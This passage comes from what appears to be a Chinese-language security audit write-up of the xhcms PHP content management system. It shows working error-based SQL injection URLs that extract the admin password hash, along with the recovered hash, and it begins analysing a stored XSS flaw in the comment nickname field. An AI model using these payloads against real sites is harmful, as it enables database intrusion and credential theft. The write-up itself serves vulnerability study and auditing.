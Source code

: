 浏览次数这里无单引号保护，存在注入。

可进行报错注入

```php
http://www.xhcms.com/?r=software&cid=1  or extractvalue(1,concat(0x7e,substr((select group_concat(password) from manage),1,30),0x7e))#


http://www.xhcms.com/?r=software&cid=1  or extractvalue(1,concat(0x7e,substr((select group_concat(password) from manage),31,30),0x7e))#
```

分别得到

```sql
修改错误：XPATH syntax error: '~21232f297a57a5a743894a0e4a801f~'

修改错误：XPATH syntax error: '~c3~'

拼接： 21232f297a57a5a743894a0e4a801fc3
```

得到密码

![image-20210218115639796](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210218115639796.png)

还有 `file/content.php` 和这个是一样的。

当然还有很多登陆后台以后的sql注入，这里不一一展开了。

## 七、评论xss漏洞

去尝试评论功能点



![image-20210218121914359](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210218121914359.png)

这里只显示了昵称处的 xss

![image-20210218122105385](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210218122105385.png)

评论处的xss被过滤，去回溯代码分析为啥？

抓包很明显，对应的 文件为 `file/submit.php` 

48 行，被过滤了

```php
$content= addslashes(strip_tags($content));//过滤HTML
```




